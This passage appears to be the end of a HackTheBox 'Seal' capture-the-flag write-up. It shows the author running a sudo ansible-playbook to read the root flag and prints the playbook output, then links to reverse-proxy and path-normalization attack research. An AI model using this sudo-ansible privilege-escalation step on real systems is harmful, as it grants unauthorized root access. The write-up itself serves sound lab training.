 This should do it. We could take it a step further and get a shell as root, but I decided to get the flag and move on this time. This playbook is pretty straight forward. It will simply cat the root flag. Ansible syntax has us register the task / command, and we can use that with the debug flag to view the stdout of that command which will be the result of the cat command, our root flag.

Let's run the playbook and see how it looks:
```text
luis@seal:/opt/backups/playbook$ sudo ansible-playbook root.yml
[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit
localhost does not match 'all'

PLAY [localhost] ****************************************************************************

TASK [Gathering Facts] **********************************************************************
ok: [localhost]

TASK [Copy Files] ***************************************************************************
changed: [localhost]

TASK [debug] ********************************************************************************
ok: [localhost] => {
    "b00m.stdout": "51fcb47aecd7003adc417744058b8008"
}

PLAY RECAP **********************************************************************************
localhost                  : ok=3    changed=1    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0 
```

Works great, and we can see it output the root flag. This proves we have escalated our privileges all the way to root, and the machine is completely compromised.


[1]: https://app.hackthebox.com/users/13531
[2]: https://www.hackthebox.eu
[3]: https://www.acunetix.com/blog/articles/a-fresh-look-on-reverse-proxy-related-attacks/
[4]: https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf